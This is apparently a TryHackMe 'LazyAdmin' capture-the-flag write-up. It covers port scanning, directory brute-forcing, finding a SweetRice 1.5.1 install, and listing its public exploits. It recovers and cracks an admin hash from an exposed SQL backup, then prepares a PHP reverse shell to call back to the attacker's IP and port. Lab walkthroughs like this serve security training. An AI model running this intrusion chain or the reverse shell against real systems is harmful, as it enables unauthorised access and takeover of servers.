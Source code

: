 # THM - LazyAdmin

## IP Address
10.10.131.164

## Write Up
1. do an Nmap scan.
```bash
#make a directory to store where you are going to store you nmap results
mkdir nmap
#scan for open ports and direct results to nmap/initial
nmap -p- -sV -sC -oN nmap/initial 10.10.131.164
```
2. The name results will result as shown:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-23 08:51 UTC
Nmap scan report for ip-10-10-131-164.eu-west-1.compute.internal (10.10.131.164)
Host is up (0.00078s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:DB:6B:30:7D:88 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.22 seconds
```

3. Port 80/http is open. Navigating to it will lead you to a apache page.
<insert ss1>

4. Explore other potential directories with gobuster.
```bash
#install gobuster if you dont have it already
sudo apt install gobuster

#run gobuster with dirbuster wordlists
gobuster dir -u http://10.10.131.164 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

5. You will see that /content is available.
```bash
gobuster dir -u http://10.10.131.164 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

6. Going to http://10.10.131.164/content brings user to a sweetrice page but do not have much details as well. So we will run gobuster again on 10.10.131.164/content
```bash
gobuster dir -u http://10.10.131.164/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

7. You will realise that /content gives more output
```bash
/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
```

8. Running through the files you will realised there is this file over at /content/inc/lastest.txt shows ```1.5.1```. This may be the SweetRice version number.

9. Search for SweetRice Exploits.
```bash
searchsploit sweetrice
```

It will return a few exploits available under version ```1.5.1```. Main exploits are Arbitrary File Upload and PHP code execution.
```bash
---------------------------------- ----------------------------------------
 Exploit Title                    |  Path
                                  | (/usr/share/exploitdb/)
---------------------------------- ----------------------------------------
SweetRice 0.5.3 - Remote File Inc | exploits/php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulner | exploits/php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File  | exploits/php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File  | exploits/php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosu | exploits/php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Requ | exploits/php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Requ | exploits/php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' A | exploits/php/webapps/14184.txt
---------------------------------- ----------------------------------------
```

10. Now we need to find a username and password to run the 2 exploits. Looking further into the files at ```/content/inc``` you will come across an interesting SQL document under ```http://10.10.131.164/content/inc/mysql_backup/```. Download the SQL file and read it through:
```bash
cat Downloads/mysql_bakup_20191129023059-1.5.1.sql 
```

You will notice the PHP code along with the hashed password and username:
```bash
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"
```

11. Run the hashed password over at [CrackStation](https://crackstation.net/) and you will get the password for user ```manager```.
```manager:Password123```

12. go to ```/content/as``` and login with the username and password to verify. Once logged in, start the website.

13. We are now going to use the 2 exploits found earlier. We can either upload the code in the dashboard > ads or we can use a python script to do the uploading.
- [SweetRice 1.5.1 - Arbitrary File Upload Script](https://www.exploit-db.com/exploits/40716)

14. We will also need to create our reverse shell and create a few ext to see which extension SweetRice will accept. In this CTF, .php5 will work.
- [Php Reverse Shell Code](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

You will need to edit part of the scripts. You will need to get your ip addr and edit the IP and PORT section of the code.
```bash
root@kali:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc mq state UP group default qlen 1000
    link/ether 02:40:bb:15:91:a0 brd ff:ff:ff:ff:ff:ff
    inet 10.10.141.19/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3365sec preferred_lft 3365sec
    inet6 fe80::40:bbff:fe15:91a0/64 scope link 
       valid_lft forever preferred_lft forever
```

We will use ```10.10.141.19``` and port ```9001``` (you can choose your own port no.) and edit the following in the PHP script:

```bash
...
$ip = '10.10.141.19';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
...
```


